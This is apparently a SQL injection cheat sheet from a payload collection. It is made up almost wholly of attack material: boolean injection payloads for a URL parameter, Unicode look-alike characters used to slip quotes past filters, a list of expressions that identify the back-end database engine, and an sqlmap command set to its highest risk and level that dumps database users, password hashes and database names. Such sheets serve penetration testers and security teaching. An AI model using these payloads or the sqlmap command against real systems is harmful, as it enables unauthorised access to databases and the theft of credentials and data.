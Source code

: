 Logic Testing
```
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```

Weird characters
```
Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")
Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
```

## DBMS Identification
```c
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```


## SQL injection using SQLmap
Basic arguments for SQLmap
```
sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```
